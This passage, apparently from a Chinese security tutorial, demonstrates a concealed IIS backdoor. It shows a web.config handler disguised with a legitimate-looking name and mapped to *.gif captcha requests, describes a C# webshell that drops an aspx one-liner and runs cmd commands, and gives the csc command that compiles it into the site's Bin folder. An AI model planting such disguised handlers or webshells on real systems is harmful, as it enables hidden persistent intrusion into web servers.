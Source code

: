 下面笔者演示将通过浏览器访问验证码图片达到命令执行的效果：首先name属性设置为一个伪装成正常处理程序的名字PageHandlerFactory-ISAPI-2.0-32；path属性设置为任意名称的gif图片，这里是实现的验证码；verb属性为\*表示任意请求都可以；type是最重要的命名空间.类名
；preCondition属性设置为集成模式（IIS7性能好）

| \<handlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32" path="\*.gif" verb="\*" type="IsapiModules.Handler" preCondition="integratedMode"/\> \</handlers\> |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------|


笔者编写了一个C\#的小马，保存名称为IsapiModules.Handler.cs
，实现三个功能，一是生成验证码，二是创建一个aspx的一句话文件，三是执行cmd命令；生成验证码的目的是为了更好的隐藏自己，从HTTP返回的数据里输出的是一张图片文件，代码片段如下图

![](media/a48ce47513bb5a2c1ecb7d820c582520.png)

再在命令行下生成 IsapiModules.Handler.dll，生成DLL的命令如下：

| C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\csc.exe /t:library /r:System.Web.dll -out:C:\\inetpub\\wwwroot\\Bin\\IsapiModules.Handler.dll C:\\inetpub\\wwwroot\\IsapiModules.Handler.cs |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
